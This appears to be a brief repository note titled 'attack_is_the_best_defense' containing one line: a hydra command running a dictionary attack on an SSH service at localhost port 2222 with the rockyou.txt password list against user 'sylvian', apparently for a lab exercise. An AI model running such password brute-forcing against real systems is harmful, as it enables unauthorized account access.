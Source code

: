 # attack_is_the_best_defense

- Dictionary Attack: `ubuntu@ubuntu$ hydra -V -s 2222 -l sylvian -P rockyou.txt 127.0.0.1 ssh -t 4` 
